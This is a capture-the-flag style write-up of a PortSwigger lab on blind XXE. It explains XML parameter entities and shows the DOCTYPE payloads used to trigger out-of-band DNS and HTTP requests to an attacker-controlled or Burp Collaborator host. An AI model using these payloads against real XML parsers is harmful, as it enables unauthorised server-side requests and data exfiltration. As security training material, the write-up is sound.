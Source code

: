 ## Blind XXE with out-of-band interaction via XML parameter entities

**Title:** Blind XXE with out-of-band interaction via XML parameter entities. [Go](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)

**Description:**
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

## Preface

Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

- You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
- You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

You can often detect blind XXE using the same technique as for XXE SSRF attacks but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

 Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:
`<!ENTITY % myparameterentity "my parameter entity value" >`

And second, parameter entities are referenced using the percent character instead of the usual ampersand: `%myparameterentity;`

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:
`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful. 

## Methodology

### Finding the vulnerable parameter

While solving this lab we are interested in `Check stock` functionality.

### My thought

After intercepting "Check stock" POST request in Burp Suite Professional we inserted the following external entity definition in between the XML declaration and the `stockCheck` element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated: `<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe;`. Going to the Collaborator tab, and we clicked "Poll now". We should see some DNS and HTTP interactions that were initiated by the application as the result of our payload.
